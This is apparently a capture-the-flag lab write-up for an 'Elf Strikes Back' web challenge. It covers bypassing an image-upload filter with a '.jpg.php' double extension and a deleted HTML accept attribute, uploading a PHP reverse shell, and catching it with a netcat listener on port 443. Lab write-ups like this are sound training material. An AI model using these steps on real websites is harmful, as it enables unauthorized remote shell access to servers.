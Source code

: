 # [Web Exploit] Elf Strikes Back

IP: 10.10.117.83
ID number: ODIzODI5MTNiYmYw

### What string of text needs adding to the URL to get access to the upload page?
- `?id=ODIzODI5MTNiYmYw`

### What type of file is accepted by the site?
- image

### Bypass the filter and upload a reverse shell.
- `cd /usr/share/webshells/php/php-reverse-shell.php`
- change `$ip='<'ip a show tun0'` and `$port=443` (which is openvpn's port)
- make the file extension being `.jpg.php`.
- delete `accept` attribute in HTML

### In which directory are the uploaded files stored?
- Blindly guessed `/uploads/` (don't need `gobuster` lol)

### Activate your reverse shell and catch it in a netcat listener!
- `sudo nc -lvnp 443`
- go to `/uploads/` then activate the shell file

### What is the flag in /var/www/flag.txt?
- `cat` it :D





